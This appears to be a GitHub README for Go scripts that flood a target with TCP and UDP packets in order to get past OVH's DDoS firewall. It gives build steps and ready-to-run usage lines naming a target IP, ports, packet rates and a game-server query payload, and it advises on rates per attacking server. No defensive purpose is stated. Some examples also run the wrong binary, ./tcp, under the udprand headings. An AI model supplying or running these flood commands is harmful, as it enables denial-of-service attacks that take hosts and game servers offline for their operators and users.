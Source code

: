 <h2>Golang OVH Bypasses</h2>

<h3>Coded by forky (tg: @yfork)</h3>

<h4>Those scripts are made to bypass OVH firewall</h4>


<h1>Installation:</h1>

```sh
apt install snap snapd -y
snap install go --classic
```

<h1>Setup:</h1>

```sh
go build tcp.go
go build udp.go
go build udprand.go
```

<h3>TCP Handshake usage</h3><br>

```sh
./tcp <target> <tcp-port> <packets-per-second>
./tcp 145.239.54.169 80 10000
```

<h3>UDP with TCP Handshake and random data usage</h3><br>

```sh
./udprand <target> <tcp-port> <udp-port> <packets-per-second>
./tcp 145.239.54.169 80 1194 8000
```

<h3>UDP with TCP Handshake and custom data usage</h3><br>

```sh
./udprand <target> <tcp-port> <udp-port> <packets-per-second> <udp-payload>
./tcp 145.239.54.169 80 1194 8000 ffffffff54536f7572636520456e67696e6520517565727900
```

## We recommend using a low amount of PPS per server (10000 p/s max)
